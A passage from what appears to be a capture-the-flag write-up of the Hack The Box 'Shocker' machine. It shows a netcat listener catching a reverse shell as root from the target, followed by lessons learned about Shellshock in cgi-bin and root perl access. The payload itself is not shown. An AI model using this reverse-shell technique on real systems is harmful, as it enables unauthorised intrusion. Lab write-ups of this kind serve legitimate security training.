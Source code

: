 shelly@Shocker:/home/shelly$ Content-Length: 42
Connection: close
Content-Type: text/html

Sent reverse shell to 10.10.14.18:4456

{{< /highlight >}}

On my machine:

{{< highlight html >}}
nc -nlvp 4456
listening on [any] 4456 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.56] 58268
 14:17:48 up  7:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# whoami
root
#
{{< /highlight >}}

**Note**: flags are under /home and /root

## Lessons learned and remediations

- As they always say, **enumeration is key**!
- The administrator should have restricted access to all the files in the /cgi-bin directory, because from there I was able to exploit the Shellshock vulnerability.

- The administrator should have patched his system against the Shellshock vulnerability (the patch exists).

- The ability to run perl with root privileges gave me a chance to obtain full control on the machine. The administrator should check that configuration to see if it is strictly necessary.
